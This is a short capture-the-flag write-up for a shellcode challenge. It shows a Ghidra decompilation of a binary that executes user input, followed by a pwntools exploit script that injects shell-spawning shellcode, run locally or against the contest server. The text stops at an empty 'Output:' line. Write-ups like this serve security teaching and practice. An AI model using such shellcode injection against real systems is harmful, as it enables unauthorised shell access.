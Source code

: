 Stack canary--no easy stack smashing. No NX/Has RWX--shellcode. PIE enabled--no ROP without leak.

### Decompile with Ghidra

```c
void main(void)
{
  long in_FS_OFFSET;
  char local_f8 [32];
  undefined local_d8 [200];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("In the land of raw humanity");
  fgets(local_f8,0x13,stdin);
  fgets(local_d8,200,stdin);
  (*(code *)local_d8)();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

Disappointedly easy.  Just put some shellcode into `local_d8`.  No math, no thinking required.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_07')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30007)

p.sendline()

payload  = b''
payload += asm(shellcraft.sh())

p.sendline(payload)
p.interactive()
```

> Ok, there was one tricky issue with this challenge.  Buffering.  There was no way to wait for the `printf` string, so I had to blindly just send a return.  This is not uncommon for pure shellcoding challenges were you just pipe something into `nc`.

Output:
